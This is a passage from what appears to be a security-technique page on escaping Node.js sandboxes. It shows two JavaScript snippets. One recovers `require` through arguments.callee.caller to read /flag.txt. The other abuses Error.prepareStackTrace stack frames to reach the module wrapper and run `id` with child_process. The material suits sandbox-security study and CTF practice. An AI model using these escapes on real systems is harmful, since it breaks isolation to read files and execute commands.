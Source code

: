 Therefore, if from that module we can **call another function**, it's possible to use `arguments.callee.caller.arguments[1]` from that function to access **`require`**:

```javascript
;(function () {
  return arguments.callee.caller.arguments[1]("fs").readFileSync(
    "/flag.txt",
    "utf8"
  )
})()
```

In a similar way to the previous example, it's possible to **use error handlers** to access the **wrapper** of the module and get the **`require`** function:

```javascript
try {
  null.f()
} catch (e) {
  TypeError = e.constructor
}
Object = {}.constructor
String = "".constructor
Error = TypeError.prototype.__proto__.constructor
function CustomError() {
  const oldStackTrace = Error.prepareStackTrace
  try {
    Error.prepareStackTrace = (err, structuredStackTrace) =>
      structuredStackTrace
    Error.captureStackTrace(this)
    this.stack
  } finally {
    Error.prepareStackTrace = oldStackTrace
  }
}
function trigger() {
  const err = new CustomError()
  console.log(err.stack[0])
  for (const x of err.stack) {
    // use x.getFunction() to get the upper function, which is the one that Node.js adds a wrapper to, and then use arugments to get the parameter
    const fn = x.getFunction()
    console.log(String(fn).slice(0, 200))
    console.log(fn?.arguments)
    console.log("=".repeat(40))
    if ((args = fn?.arguments)?.length > 0) {
      req = args[1]
      console.log(req("child_process").execSync("id").toString())
    }
  }
}
trigger()
```
